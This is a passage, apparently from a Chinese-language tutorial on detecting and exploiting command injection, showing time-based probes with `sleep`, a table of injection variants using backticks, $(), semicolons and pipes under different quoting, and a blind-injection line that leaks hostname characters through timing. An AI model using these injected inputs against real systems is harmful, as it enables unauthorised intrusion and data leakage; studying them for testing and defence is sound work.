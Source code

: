 

####	sleep

检测是否有命令注入比较好的方式就是使用`sleep`，并观察其执行时间是否增加。

```bash
$ time ruby ping.rb '8.8.8.8'
PING 8.8.8.8 (8.8.8.8): 56 data bytes
...
0.09s user 0.04s system 4% cpu 3.176 total

$ time ruby ping.rb '8.8.8.8 && sleep 5'
PING 8.8.8.8 (8.8.8.8): 56 data bytes
...
0.10s user 0.04s system 1% cpu 8.182 total
```

可以看出如果存在命令注入，执行时间会按照我们`sleep`的参数增加，我们这里再简单总结一下前面单引号与双引号的区别

| 命令                                 | 结果                                                         |
| ------------------------------------ | ------------------------------------------------------------ |
| ping -c 4 8.8.8.8\`sleep 5\`         | sleep命令被执行，命令替换在命令行中。                        |
| ping -c 4 "8.8.8.8\`sleep 5\`"       | sleep命令被执行，命令替换在复杂的字符串双引号之间。          |
| ping -c 4 $(echo 8.8.8.8\`sleep 5\`) | sleep命令被执行，命令替换在使用不同符号时。                  |
| ping -c 4 '8.8.8.8\`sleep 5\`'       | sleep命令不执行，命令替换在简单字符串中不起作用（单引号之间）。 |
| ping -c 4 \`echo 8.8.8.8\`sleep 5``  | sleep命令不执行，使用相同符号时命令替换不起作用。            |
| ping -c 4 8.8.8.8;sleep 5            | sleep命令被执行，命令在命令行中顺序执行。                    |
| ping -c 4 "8.8.8.8;sleep 5"          | sleep命令未被执行，附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。 |
| ping -c 4 $(echo 8.8.8.8;sleep 5)    | sleep命令被执行，排序命令在命令替换中起作用。                |
| ping -c 4 '8.8.8.8;sleep 5'          | sleep命令未被执行， 附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。 |
| ping -c 4 \`echo 8.8.8.8;sleep 5`    | sleep命令被执行，排序命令在命令替换中起作用。                |
| ping -c 4 8.8.8.8 \| sleep 5         | sleep命令被执行，管道输出在命令行正常执行。                  |
| ping -c 4 "8.8.8.8 \| sleep 5"       | sleep命令未被执行，附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。 |
| ping -c 4 $(echo 8.8.8.8 \| sleep 5) | sleep命令被执行，管道输出在命令替换中起作用。                |
| ping -c 4 '8.8.8.8 \| sleep 5'       | sleep命令未被执行，附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。 |
| ping -c 4 \`echo 8.8.8.8 \| sleep 5` | sleep命令被执行，管道输出在命令替换中起作用。                |



除了探测是否有命令注入之外，`sleep`还有一个可以用于命令盲注的方法。

```bash
sleep $(hostname | cut -c 1 | tr a 5)
```
